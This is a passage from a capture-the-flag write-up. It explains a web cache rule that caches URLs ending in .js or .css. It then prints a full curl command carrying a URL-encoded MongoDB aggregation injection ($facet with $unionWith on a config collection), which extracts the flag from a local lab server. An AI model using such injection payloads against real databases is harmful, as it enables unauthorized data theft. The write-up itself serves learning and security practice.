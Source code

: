 ```js
    }

    if (req.url ~ "\.(js|css)(\?.*)?$") {
        set resp.http.X-Cache-Key = req.url;
        set resp.http.X-Cache-TTL = obj.ttl;
    }

    return (deliver);
}
```

The request is `cached` if it ends with `js` or `css`.  

All we need to do is to add a `.js` extension at the end of our request, then request it from our machine.  

We can see a different response. 

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715144600.png" alt="1" style="width:700px; height:auto;">
<br/>   


And we get the `flag`

```js
└─$ curl 'http://127.0.0.1:5000/api/search.js?debug=true&filter=%7B%0A%20%20%20%20%20%20%20%20%22%24facet%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%22p%22%3A%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%20%22%24unionWith%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22coll%22%3A%22config%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22pipeline%22%3A%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%20%22%24match%22%3A%7B%22type%22%3A%22flag%22%7D%20%7D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%20%22%24project%22%3A%7B%22_id%22%3A0%2C%22value%22%3A1%7D%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D'
[{"p":[{"value":"L3AK{testing}"}]}]

```

---
---



